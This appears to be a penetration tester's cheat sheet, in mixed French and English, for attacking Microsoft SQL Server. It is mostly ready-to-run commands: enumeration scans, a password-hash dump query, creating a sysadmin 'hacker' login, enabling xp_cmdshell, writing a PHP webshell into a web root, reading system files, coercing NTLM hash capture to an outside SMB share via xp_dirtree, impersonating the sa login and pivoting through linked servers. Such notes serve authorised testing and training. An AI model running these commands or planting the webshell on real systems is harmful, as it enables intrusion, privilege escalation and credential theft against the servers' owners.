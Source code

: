 ```yaml
---
public: true 
#Tags: vhost, hashes, lfi, password-spraying, potato
---
```


Port : 1433

## Enumeration

### nmap
```shell-session
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET_IP
```

### metasploit
```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248

rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Mssqlclient.py (impacket)
```sql
-- Internal Authentication (no fomzin prefix)
mssqlclient.py -p 1433  $USER:$PASS@$TARGET_IP 

--
mssqlclient.py Administrator@10.129.201.248 -windows-auth

-- Local workstation account authentication (no need to add WIN-02 to hosts)
mssqlclient.py -p 1433 -windows-auth WIN-02/mssqlsvc:princess1@$TARGET_IP      
```

## Commandes utiles
### Enumeration / Exploration
```sql
-- Get version
select @@version;
-- Get user
select user_name();

-- Check if we are sysadmin
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin'); -- retourne 0 si nous ne sommes pas membre
-- Get databases
SELECT name FROM master.dbo.sysdatabases;
select name from sys.databases
-- Use database
USE master

-- Get table names
SELECT table_name FROM <databaseName>.INFORMATION_SCHEMA.TABLES;



-- List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

-- Identify Linked Servers
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0        <== isremote = 0 ===> LINKED SERVER

-- List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;

```

### Exploitation
#### Création de compte
```sql
------------------------------------------------------------------------
-- Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';
EXEC sp_addsrvrolemember 'hacker', 'sysadmin';
```

#### Exécution de commandes

```
------------------------------------------------------------------------
-- Tentative d activation de xp_cmdshell  (si droits suffisants)
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;
-- To update the currently configured value for advanced options.  
RECONFIGURE;
-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;
-- To update the currently configured value for this feature.  
RECONFIGURE
--  Execution de commande (si xp_cmdshell est activé)
xp_cmdshell 'whoami';
```

#### Ecriture dans un fichier
```
------------------------------------------------------------------------
-- Creation de fichier fia OLE Automation Procedures
-- Activation
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
-- Création de fichier
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

#### Lecture d'un fichier
```
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

#### Capture de Hash

```
-- XP_DIRTREE
EXEC master..xp_dirtree '\\10.10.110.17\share\'

-- XP_SUBDIRS
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

#### User Impersonate

```
-- Liste des users que l'on peut "impersonate"
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO

-- Exploitation
user master; -- db sur laquelle on est sur d'avoir les droits
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
REVERT; -- retourne aux droits précédents
```

### Linked Server
Si on a un serveur lié (voir énumération sur cette page), on peut exécuter des requêtes à distance sur cette machine :

```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

## Outils utiles

#### sqlcmd (Windows)
```
# -y 30 -Y 30 augmentent la visibilité des résultat (attention aux performances)
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# ATTENTION : cet utilitaire nécessite la saisie du mot GO à la ligne terminant chaque requête ! (pas besoin de ';' dans cet outil)
```

#### sqsh (Linux)
```
# Authentificatino Interne (SQL Server)
sqsh -S $TARGET_IP -U $AD_USER -P $AD_PASSWORD

# Authentification locale ou domaine
sqsh -S $TARGET_IP -U .\\$AD_USER -P $AD_PASSWORD 
```

#### mssqlclient.py (Impacket)

```
 mssqlclient.py -p 1433 julio@10.129.203.7 
```



There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry. Nevertheless, those methods are outside the scope of this module.